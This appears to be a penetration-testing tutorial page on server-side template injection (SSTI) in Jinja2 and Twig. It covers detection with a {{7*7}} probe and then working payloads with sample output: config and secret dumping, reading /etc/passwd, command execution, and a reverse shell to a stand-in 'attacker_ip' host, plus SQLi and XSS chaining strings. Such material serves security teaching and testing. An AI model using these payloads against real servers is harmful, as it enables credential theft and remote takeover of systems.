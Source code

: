 # 👀 SSTI

Server-Side Template Injection (SSTI) is a critical vulnerability where an attacker can inject template code into a web application’s template engine, causing it to be executed server-side. This can lead to severe security issues, including **information disclosure**, **remote code execution (RCE)**, and **local file inclusion (LFI)**.

***

### **1. Context and Overview**

#### What Is SSTI?

A **template engine** is responsible for rendering dynamic content by merging templates (pre-defined HTML) with user input or data from a database. Common examples include **Jinja2** for Python (used in Flask/Django), **Twig** for PHP, and **Velocity** for Java-based applications. These engines allow dynamic content to be generated based on user inputs or system data.

**SSTI** occurs when the application **fails to sanitize** user input properly, allowing an attacker to inject malicious template syntax. This can result in various attacks, such as reading sensitive files, executing arbitrary code, or even compromising the entire server.

***

### **2. Identifying SSTI Vulnerabilities**

Identifying SSTI vulnerabilities is similar to detecting **SQL injection** or **Cross-Site Scripting (XSS)**. The goal is to inject special characters or expressions that the template engine will try to evaluate.

#### **Common Injection Syntax for Template Engines:**

* **Jinja2 (Python)**: `{{ ... }}`
* **Twig (PHP)**: `{{ ... }}`
* **Velocity (Java)**: `${ ... }`

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption><p><a href="https://portswigger.net/web-security/server-side-template-injection"><strong>https://portswigger.net/web-security/server-side-template-injection</strong></a></p></figcaption></figure>

#### **Testing for SSTI:**

Look for places where user input is incorporated into templates. The most common input fields to test include:

* **Form Inputs** (e.g., search bars, login forms)
* **URL Parameters** (e.g., `?name={{ user_name }}`)
* **HTTP Headers** (e.g., custom headers, cookies)
* **File Uploads** (e.g., image metadata or document-based templates)

#### **Burp Suite Example:**

Let’s start with an example using **Burp Suite** to intercept and manipulate HTTP requests.

**Request:**

Imagine we’re testing a login form that takes a `username` parameter and outputs a personalized greeting:

```http
POST /login HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 40

username=vautia&password=testpassword
```

**Injection:**

Inject the following SSTI payload in the `username` parameter to test for template processing:

```http
POST /login HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 40

username={{7*7}}&password=testpassword
```

**Response:**

After sending the request, the server responds with the following:

```html
Hello 49! Welcome to the site.
```

This reveals that the application is processing the input as a template expression, indicating an **SSTI vulnerability**.

***

### **3. Exploiting SSTI: Common Scenarios**

Once SSTI is identified, attackers can leverage various techniques to exploit the vulnerability.

#### **Scenario 1: Information Disclosure**

An attacker can use SSTI to expose internal application configurations or secrets, such as database credentials, environment variables, or API keys.

**Example Payload (Jinja2):**

```plaintext
{{ config.items() }}
```

**Response:**

```plaintext
[('DEBUG', True), ('SECRET_KEY', 'randomkey1234'), ('SQLALCHEMY_DATABASE_URI', 'mysql://user:password@localhost/db')]
```

This reveals sensitive configuration data.

***

#### **Scenario 2: Local File Inclusion (LFI)**

SSTI can be leveraged to read sensitive files, such as `/etc/passwd` on Linux systems or application logs, if the template engine has access to the filesystem.

**Example Payload (Jinja2):**

```plaintext
{{ self.__init__.__globals__.__builtins__.open('/etc/passwd').read() }}
```

**Response:**

```plaintext
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```

This exposes the contents of `/etc/passwd`, potentially revealing user accounts and system information.

**Example Payload (Twig):**

```plaintext
{{ "/etc/passwd"|file_excerpt(1,-1) }}
```

**Response:**

```plaintext
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```

***

#### **Scenario 3: Remote Code Execution (RCE)**

The most severe impact of SSTI is remote code execution. This allows attackers to run arbitrary commands on the server, potentially compromising the entire system.

**Example Payload (Jinja2):**

Executing the `id` command to get the user context:

```plaintext
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

**Response:**

```plaintext
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

This confirms that the attacker can execute commands on the server.

**Example Payload (Twig):**

In **Twig**, you can use the `filter('system')` function to execute arbitrary system commands:

```plaintext
{{ ['id'] | filter('system') }}
```

**Response:**

```plaintext
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**Advanced Remote Code Execution (RCE):**

Attackers can escalate RCE to more dangerous payloads, such as reverse shells or data exfiltration.

**Reverse Shell Example (Jinja2):**

```plaintext
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -i >& /dev/tcp/attacker_ip/4444 0>&1').read() }}
```

This command attempts to open a reverse shell back to the attacker's machine at IP `attacker_ip` on port `4444`.

***

### **4. Advanced Payloads and Complex Exploitation**

#### **Chaining SSTI with Other Vulnerabilities**

In some cases, SSTI can be chained with other vulnerabilities, like **SQL Injection (SQLi)** or **Command Injection**, to achieve greater control over the application.

**SSTI + SQL Injection (SQLi):**

Imagine an application that uses template injection to build SQL queries. If the application is also vulnerable to **SQL injection**, an attacker can combine both vulnerabilities to extract sensitive data.

```plaintext
{{ config['SECRET_KEY'] }}' OR 1=1 --
```

This could reveal the secret key while bypassing login authentication by exploiting the SQLi part.

**SSTI + XSS:**

An attacker can inject **Cross-Site Scripting (XSS)** payloads into the template, which can then be executed in other users' browsers.

```plaintext
{{ "<script>alert('XSS')</script>" }}
```

This injects malicious JavaScript into the page, which gets executed when another user visits the site.
